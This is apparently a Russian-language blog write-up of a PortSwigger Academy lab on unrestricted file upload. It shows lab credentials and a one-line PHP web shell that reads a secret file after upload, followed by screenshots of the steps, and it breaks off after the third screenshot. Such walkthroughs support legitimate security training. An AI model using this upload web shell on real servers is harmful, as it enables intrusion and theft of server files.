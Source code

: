 ```yaml
---
title: "Remote code execution via web shell upload"
date: 2025-08-08
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/file-upload-apprentice/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload"
classes: wide
---
```


Эта лаба содержит **узявимость в загрузке файлов**.

Для решения лабы нужно загрузить `PHP` скрипт, который выведет содержимое файла `/home/carlos/secret`. У нас есть креды пользователя `wiener:peter`.

```
https://0a580059035e264780154ef8009b001b.web-security-academy.net/ca
```

## Solution

В задаче написано, что нужно загрузить `PHP` скрипт. Я человек простой, вижу — делаю. Создам файл:

*img.php*:

```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Заходим в лк и загружаем файл.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_web_shell_upload/1.png){: height="200" .align-center}

Файл загружен:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_web_shell_upload/2.png){: height="200" .align-center}

Попробую посмотреть его содержимое:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_web_shell_upload/3.png){: height="200" .align-center}

